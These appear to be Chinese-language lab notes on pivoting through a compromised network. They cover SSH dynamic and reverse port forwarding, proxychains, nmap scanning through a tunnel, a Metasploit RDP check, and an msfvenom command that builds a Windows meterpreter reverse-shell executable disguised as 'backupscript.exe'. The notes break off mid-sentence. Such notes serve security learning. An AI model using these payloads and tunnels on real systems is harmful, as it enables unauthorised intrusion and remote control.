 所以 我们在ssh端 进行 动态端口转发，来让socks搭建后的 socks 以及http/HTTPs代理能通过咱们搭建好的隧道转发出去 
![[Pasted image 20241101155553.png]]
这里是-D 的信息 其中重点注意 whenever 链接到piort后 可以通过端口转发 并且代理链接
![[Pasted image 20241101162255.png]]
设置4050为隧道端口
此时 隧道搭建完毕 ，需要修改里面的 porxychains 代理的一个配置文件 加入 本地的proxychains 的文件配置文件信息中，
格式是 socks4 127.0.0.1 4050 加入到最后一行或者修改 
这个是要用到的 代理工具信息 ：
https://github.com/haad/proxychains
这里的默认端口信息为9050  ![[Pasted image 20241101162745.png]]
然后我修改为 4050 
这时候利用porxychains 这个 代理 进入后 
![[Pasted image 20241101171240.png]]
其中 在使用的代理连打包的 nmap数据 转发这个方法当中，我们需要注意的是，只能对tcp链接做全部转发  只认这个 其他的一礼拜不认 比如 半联结扫描 ，因为window的deference 默认阻止icmp请求 
在整个网络中不依赖 ping的tcp扫描花费很长时间，所以 本例中不考虑  如果想深入研究的话 
他是 链接如下：
https://nmap.org/book/scan-methods-connect-scan.html

采用如下 代理链条枚举 window目标 ：
![[Pasted image 20241101203601.png]]
寻找对应的端口信息
在尝试 rdp端口存在的时候 ，发现可能利用的rdp端口的店 ，然后去执行msfconsole进一步确认是否存在，挂代理运行 ![[Pasted image 20241101204033.png]]
得知
![[Pasted image 20241101204052.png]]
成功拿下发现有3389上的rdp存在 
所以 
![[Pasted image 20241101204407.png]]
干到内网真他吗快，直接借助 socks端口代理成功建立隧道搭建 隧道穿越功能 get

### 使用ssh进行远程 反向端口转发
 第一个实验 ：本地端口转发 机制，且ssh在本地主机侦听将远程服务器的转发到我们对应的端口上，并且 动态端口抓饭，![[Pasted image 20241101205211.png]]
 适用场景 当进入到windowA 后想从这里 windowA的机器中建立一个反向shell反向链接到 攻击机  
 必须要连接到第三方  
 远程反向端口转发 适用于以下技术：
 1 当上传文件 跟瞎子啊文件在rdp被禁用，或者说是 执行枚举的时候被禁用  只能执行低端api 想提升的
 此时 需要找到一个第三方主机 来充当中间的转接站，然后这个转接站 负责衔接 A 跟C 之间的链接，首先我们确保可以ssh到Ubuntu上  ，在这条隧道中，需要保证反向链接的数据可以从 最终内网的windowA主机 链接到我们的A攻击机上 ，这样构成通路
 而我们已知的条件是 从A攻击机到B 中间机器的过程，所以 需要先开启ubuntu的端口 以便把从C 的反向shell发送到A
 此时 在Metasploit启动侦听器 即可捕获

此时总结 思路 要做如下三件事 ：
1 使用msfvenom 生成一个木马，最终执行要在 window执行 
2 当生成这个木马后再把这个木马从attack 机器转移到第三方ubuntu上 ，然后再移动到window上，
3 为了能接收到来自windwoA 的反弹sehll 故 a需要打开接受的端口号来接受来自C的反弹shell

第一步 ：使用msfvenom创造木马，并且木马的目的以及特征值是，将windowA 的反向链接窗口打开，并且反向shell到指定机器中区 
利用https 的payload 系统俩船速反向的shell  一键配置 payload 
目的是：制造一个window的payload的语句 并且可以在windows的机器上执行并且成功运行
他的 结构如下 ：
```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
一点一点来拆解
其中msfvenom是一个 木马生成的工具，他超脱于 msfconsole家族的，然后-p是因为在--help文档中看到有这么句话，我们的目的是为了生成payload 其在help的帮助文档中有这么句话出现，
![[Pasted image 20241103162448.png]]
他给出了一个例子，![[Pasted image 20241103162553.png]]
然后 现在需要找到所需要调用的路径 那么 这个路径怎么发现呢？
使用 